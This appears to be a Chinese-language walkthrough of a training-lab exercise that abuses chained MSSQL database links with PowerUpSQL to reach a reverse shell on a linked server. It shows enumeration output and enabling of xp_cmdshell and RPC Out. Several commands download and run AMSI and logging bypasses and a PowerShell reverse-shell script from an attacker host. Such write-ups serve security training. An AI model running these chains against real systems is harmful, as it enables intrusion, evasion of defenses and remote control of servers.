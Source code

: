 Task
•  Get a reverse shell on a db-sqlsrv in db.local forest by abusing database links from us-mssql.

1. 枚举当前账号是否有任何可用的mssql链接

```
PS C:\Windows\system32> cd C:\ad\Tools\
PS C:\ad\Tools> Import-Module .\PowerupSQL-master\PowerupSQL.psd1
WARNING: The names of some imported commands from the module 'PowerupSQL' include unapproved verbs that might make them
 less discoverable. To find the commands with unapproved verbs, run the Import-Module command again with the Verbose
parameter. For a list of approved verbs, type Get-Verb.
PS C:\ad\Tools> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
VERBOSE: us-mssql.us.techcorp.local : Connection Success.


ComputerName           : us-mssql.us.techcorp.local
Instance               : US-MSSQL
DomainName             : US
ServiceProcessID       : 2216
ServiceName            : MSSQLSERVER
ServiceAccount         : US\dbservice
AuthenticationMode     : Windows and SQL Server Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 14.0.1000.169
SQLServerMajorVersion  : 2017
SQLServerEdition       : Developer Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : US\studentuser138
IsSysadmin             : No
ActiveSessions         : 1
```

对us-mssql这个实例有进入权限，但我们不是sysadmin（IsSysadmin:No）

2. 查看上面us-mssql这个链接的信息

```
PS C:\ad\Tools> Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
VERBOSE: us-mssql.us.techcorp.local : Connection Success.


ComputerName           : us-mssql.us.techcorp.local
Instance               : us-mssql.us.techcorp.local
DatabaseLinkId         : 0
DatabaseLinkName       : US-MSSQL
DatabaseLinkLocation   : Local
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        :
is_rpc_out_enabled     : True
is_data_access_enabled : False
modify_date            : 7/7/2019 9:48:29 AM

ComputerName           : us-mssql.us.techcorp.local
Instance               : us-mssql.us.techcorp.local
DatabaseLinkId         : 1
DatabaseLinkName       : 192.168.23.25
DatabaseLinkLocation   : Remote
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        :
is_rpc_out_enabled     : False
is_data_access_enabled : True
modify_date            : 7/9/2019 6:54:54 AM
```

留意第二条枚举信息
```
DatabaseLinkName       : 192.168.23.25
DatabaseLinkLocation   : Remote
Product                : SQL Server
```

这里表示在us-mssql还有一个远程的mssql链接

3. 使用HeidiSQL客户端

以当前用户身份登录


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667866844266.png)


查找当前链接下的链接,效果如上面第2步

```
select * from master..sysservers
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667866940423.png)

继续枚举192.168.23.25这个链接下面的链接

```
select * from openquery("192.168.23.25",'select * from master..sysservers')
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667867153821.png)

openquery可以嵌套操作，根据当前链接，打开db-sqlsrv链接，枚举版本号
```
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667867292305.png)

我们还可以使用 PowerUpSQL 中的 Get-SQLServerLinkCrawl 来自动爬取数据库链接：

```
PS C:\ad\Tools> Get-SQLServerLinkCrawl -Instance us-mssql -Verbose

Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser138
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```

从上面枚举结果可知，对DB-SQLSRV有sa权限

如果启用了 xp_cmdshell（或者 rpcout 值为true，允许我们启用 xp_cmdshell），则可以使用以下命令在数据库链接中的任何节点上执行命令。

尝试对各个mssql节点执行```whoami```命令

```
PS C:\ad\Tools> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''


Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser138
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery : {nt service\mssqlserver, }   #留意这里
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```

上面结果表明我们对 DB-SQLPROD这个实例可以执行系统命令


下面在本地开启一个监听
```
PS C:\ad\Tools> . .\powercat.ps1
PS C:\ad\Tools> powercat -l -v -p 443 -t 1000
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
```

开启一个http服务
```
PS C:\ad\Tools> python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

对该实例执行一条命令，返回一个rev shell

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"'''
```

获得一个rev shell


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667868683031.png)


因为从 DB-SQLProd到DB-SQLSrv的链接是sa权限，我们可以在 DB-SQLSrv 上启用 RPC Out 和 xp_cmdshell，在上面拿到的rev shell下操作,忽略第一条命令的报错
```
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"

Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""

Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667869029838.png)

上面操作完成以后，现在再次对执行whoami,已经可以在DB-SQLSRV执行系统命令

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667869162364.png)


现在可以对DB-SQLSRV拿到一个rev shell

在HeidiSQL上操作
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell ''''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcp.ps1)"'''''')')
```

注意这里使用的是，需要在脚本最后面加
```
reverse -Reverse -IPAddress 192.168.100.138 -Port 443
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667869606504.png)

或者可以在命令行里执行rev shell

```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667869785882.png)